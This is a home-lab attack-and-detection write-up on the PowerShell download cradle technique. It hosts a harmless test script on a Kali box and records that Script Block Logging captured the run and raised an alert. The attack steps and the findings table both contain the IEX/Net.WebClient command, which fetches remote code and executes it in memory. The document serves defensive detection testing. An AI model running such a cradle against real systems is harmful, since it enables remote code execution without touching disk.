




# 03 — PowerShell Download Cradle

## Overview

| Field             | Detail                                                                                                      |
| ----------------- | ----------------------------------------------------------------------------------------------------------- |
| Status            | ✅ Completed                                                                                                 |
| Date              | 14 June 2026                                                                                                |
| Tier              | Beginner                                                                                                    |
| Attacker workflow | Kali hosts payload → win-client downloads & runs it                                                         |
| Target            | win-client (10.0.10.20)                                                                                     |
| MITRE Tactic      | Execution                                                                                                   |
| MITRE Technique   | [T1059.001 — Command and Scripting Interpreter: PowerShell](https://attack.mitre.org/techniques/T1059/001/) |
| Tool              | PowerShell IEX download cradle                                                                              |
| Log Source        | PowerShell Event 4104 (Script Block Logging)                                                                |
| Detection         | [detection/03-powershell-cradle.md](../../detection/03-powershell-cradle.md)                                |

> Prerequisite: Script Block Logging must be enabled (done once in [setup 06](../../docs/setup/06%20%E2%80%94%20Sysmon%2C%20Forwarder%20%26%20Full%20Logging%20Setup.md)).

---

## Attack Steps

### 1. On Kali — host a test PowerShell payload

```bash
echo 'Write-Host "executed from remote"' > test.ps1
python3 -m http.server 80
```

### 2. On win-client — run the download cradle (PowerShell as Administrator)

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://10.0.10.3/test.ps1')
```

This is the classic "download cradle" — pull code from a remote host and execute it in memory without touching disk. Script Block Logging records the full command.

---

## Detection (summary)

Full SPL, alert settings, and notes: [detection file](../../detection/03-powershell-cradle.md).

---

## Findings


| Field               | Result                                                                     |
| ------------------- | -------------------------------------------------------------------------- |
| Date                | 14 June 2026                                                               |
| Command used        | IEX (New-Object Net.WebClient).DownloadString('http://10.0.10.3/test.ps1') |
| Event 4104 captured | Yes                                                                        |
| Alert triggered     | Yes                                                                        |

---

## Screenshots

   